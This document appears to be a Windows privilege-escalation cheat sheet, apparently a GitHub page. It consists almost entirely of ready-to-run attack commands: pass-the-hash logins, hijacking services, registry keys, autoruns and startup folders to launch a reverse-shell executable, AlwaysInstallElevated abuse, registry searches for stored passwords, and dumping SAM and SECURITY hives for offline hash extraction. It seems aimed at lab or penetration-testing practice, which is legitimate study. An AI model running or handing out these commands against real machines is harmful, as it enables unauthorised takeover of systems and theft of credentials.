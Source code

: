 # pass the hash

```
pth-winexe -U 'administrator%lmhash:ntlmhash' //$rhost cmd.exe
```

## service

### insecure service permission

C:\PrivEsc\accesschk.exe /accepteula -uwcqv user *
sc qc <service>
sc config <service> binpath= "\"C:\PrivEsc\reverse.exe\""
net start <service>

### unquoted service path

C:\PrivEsc\accesschk.exe /accepteula -uwdq "C:\Some Path\to\service"
copy C:\PrivEsc\reverse.exe "C:\Some\Path.exe"

## registry

### weak registry permission

C:\PrivEsc\accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\<service>
reg add HKLM\SYSTEM\CurrentControlSet\services\<service> /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\reverse.exe /f

### insecure service exe

C:\PrivEsc\accesschk.exe /accepteula -quvw "C:\Program Files\File Permissions Service\<service-exe>.exe"
copy C:\PrivEsc\reverse.exe "C:\Program Files\File Permissions Service\<service-exe>.exe" /Y

### registry autoruns

reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
C:\PrivEsc\accesschk.exe /accepteula -wvu "C:\Program Files\Autorun Program\<autorun-exe>.exe"
copy C:\PrivEsc\reverse.exe "C:\Program Files\Autorun Program\<autorun-exe>.exe" /Y
<wait for admin to login>

### registry AlwaysInstallElevated

reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
msiexec /quiet /qn /i C:\PrivEsc\reverse.msi

### search registry

reg query HKLM /f password /t REG_SZ /s
reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogon"

## other

### saved creds

cmdkey /list
runas /savecred /user:admin C:\PrivEsc\reverse.exe

### get sam and system hive

reg save HKLM\sam sam
reg save HKLM\system system
reg save HKLM\security security

impacket-secretsdump -sam sam -security security -system system LOCAL

### gui programs runs as admin

open file dialog and paste the following in the navigation input:
file://c:/windows/system32/cmd.exe

### autostart writeable

C:\PrivEsc\accesschk.exe /accepteula -d "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp"
create shortcut to reverseshell
